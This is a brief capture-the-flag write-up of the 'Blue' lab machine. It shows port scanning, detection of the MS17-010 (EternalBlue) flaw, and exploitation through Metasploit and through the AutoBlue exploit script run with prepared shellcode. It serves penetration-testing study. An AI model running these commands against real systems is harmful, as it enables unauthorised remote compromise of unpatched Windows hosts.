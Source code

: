 ## Blue

Difficulty: Easy

### User Flag and Root Flag

Rustscan returns port 139 and 445 as open.  

Scanning with nmap we discover that the host is vulnerable to ms17-010.

```
rustscan -a 10.10.10.40 --ulimit 5000 -- -A -sV -sC -oN nmap.txt

nmap -p 139,445 -A --script vuln 10.10.10.40
```

![rustscan](https://github.com/b1d0ws/OSCP/assets/58514930/e1258724-2f82-4fb6-b7dc-c98b251b5dc5)

![nmap](https://github.com/b1d0ws/OSCP/assets/58514930/891390be-a6f2-4f5d-8297-851a7249cb75)

<br>

#### Automatic Exploitation

We can exploit this automatically with metasploit.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```

![metasploit](https://github.com/b1d0ws/OSCP/assets/58514930/883beede-9bc3-4a27-b44d-a4ebae60ea6c)

<br>

#### Manual Exploitation

Or manually with [this exploit](https://github.com/3ndG4me/AutoBlue-MS17-010).

```bash
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git

shell_prep.sh

python eternalblue_exploit7.py 10.10.10.40 shellcode/sc_x64.bin
```

![shellcodeGenerating](https://github.com/b1d0ws/OSCP/assets/58514930/481067e2-12fb-4e72-8192-4d9636ab952b)

![manualExploit](https://github.com/b1d0ws/OSCP/assets/58514930/5feb1f9e-0108-42e5-b1dd-47941bec3554)

